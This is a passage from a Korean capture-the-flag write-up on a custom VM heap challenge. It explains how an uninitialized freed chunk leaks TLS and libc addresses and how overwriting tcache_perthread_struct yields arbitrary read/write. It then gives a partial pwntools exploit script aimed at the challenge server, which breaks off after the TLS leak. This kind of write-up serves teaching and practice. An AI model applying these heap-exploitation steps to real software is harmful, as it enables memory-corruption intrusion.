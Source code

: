 ![7.png](7.png)
*free된 청크가 Context내 연결리스트 헤드로 존재하는 모습*

위 사진처럼, free된 `element`가 연결리스트에 들어가게 되면, 이후에는 간단하다. 연결리스트에 내에 free된 청크가 존재하기 때문에, 그대로 값을 출력해 볼 수 있고, 이를 통해 TLS 값을 leak할 수 있다.

또한, `element`의 크기(0x20) 만큼 할당해서 `element`의 값들을 내가 원하는 값으로 세팅해서 사용할 수 있다. 이후에는, 해당 값을 수정함으로써 libc까지 leak을 하고, TLS 내에 존재하는 `tcache_perthread_struct`를 덮어서 원하는 주소에 원하는 값을 읽고 쓸 수 있으니, AAR/AAW primitive를 획득했다고 이야기할 수 있다.

만약 할당 시에 바로 0으로 초기화한 뒤 1로 바꾸는 것이 아니라, 바로 1로 초기화해버렸다면 위 취약점은 없었을 것 같다.

### **[0x03] 익스플로잇**

```python
from pwn import *

def setRegister(idx, value):
    return b'\xCD' + p8(idx) + p32(value)

def push(value):
    return b'\x08' + p32(value)

def syscall(rax):
    return setRegister(0, rax) + b'\xFF'

def malloc(idx, size):
    return push(idx) + push(size) + syscall(0)

def free(idx, cnt):
    return push(idx) + push(cnt) + syscall(1)

def write(idx, cnt):
    return push(idx) + push(cnt) + syscall(3)

def read(idx, cnt):
    return push(idx) + push(cnt) + syscall(2)

if args.REMOTE:
    p = remote("prob.layer7.kr", 13000)
    libc = ELF("./libc.so.6", False)
else:
    p = process('./a.out', aslr=1)
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)

context(arch='amd64', os='linux')
payload = b''
payload += malloc(0, 0x100)
payload += free(0, 0)
payload += malloc(0, 0x100)
payload += write(0, 0)          # trigger uninitialized heap
payload += malloc(0, 0x20)      # overwrite management object
payload += write(0, 0)
payload += read(0, 0)
payload += malloc(1, 0x30)
payload += write(1, 0)
payload += read(0, 0)
payload += malloc(1, 0x30)
p.send(payload)
for _ in range(2):
    sleep(0.1)
    p.send(b'\x00')

# 1. TLS base leak
tls =  (u64(p.recv(8)) << 12) 
```